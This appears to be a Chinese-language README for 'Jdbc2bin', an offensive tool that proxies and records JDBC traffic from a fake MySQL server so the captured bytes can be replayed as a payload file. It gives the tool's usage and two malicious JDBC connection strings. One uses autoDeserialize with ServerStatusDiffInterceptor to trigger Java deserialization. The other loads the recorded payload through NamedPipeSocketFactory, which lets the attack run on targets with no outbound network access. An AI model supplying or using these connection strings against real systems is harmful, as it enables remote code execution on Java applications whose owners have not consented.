




# Jdbc2bin

From：[从JDBC MySQL不出网攻击到spring临时文件利用-先知社区](https://xz.aliyun.com/news/17830)

一个简单的工具，记录JDBC的连接流量，便于后续的不出网利用攻击

## 快速开始

```
python jdbc2bin.py -h

usage: jdbc2bin.py [-h] [--lhost LHOST] [--lport LPORT] [--rhost RHOST] [--rport RPORT] [--od OD] [--size SIZE]
                   [--timeout TIMEOUT] [--keep-listening]

jdbc connection -> 
jdbc2pcap(listen_host:listen_port) ->
FakeMySQL(rhost:rport)

optional arguments:
  -h, --help         show this help message and exit
  --lhost LHOST      proxy listen_host, default 127.0.0.1
  --lport LPORT      proxy listen port, default 3307
  --rhost RHOST      FakeMySQL host, default 127.0.0.1
  --rport RPORT      FakeMySQL port, default 3306
  --od OD            output directory(default ./output)
  --size SIZE        socket recv buffer size
  --timeout TIMEOUT  close current session after N seconds idle, default 2
  --keep-listening   continue listening after a session ends
```

## Example

使用 java_chain 启动一个fakemysql



然后在启动本项目，指定本地的fakemysql的端口



然后使用本地的jdbc客户端连接proxy的端口

```java
         url = "jdbc:mysql://127.0.0.1:3307/test"
                        + "?user=db28ff1"
                        +"&autoDeserialize=true"
                        + "&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor"
                        + "&autoDeserialize=true"+"&useSSL=true";
```



生成的namedpipe_payload 即可直接用于加载

```java
        url = "jdbc:mysql://xxxxx/test"
                        + "?user=db28ff1"
                        + "&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor"
                        + "&autoDeserialize=true"
                        + "&socketFactory=com.mysql.cj.protocol.NamedPipeSocketFactory&useSSL=false"
                        + "&namedPipePath=path\namedpipe_payload.bin";
                        
```

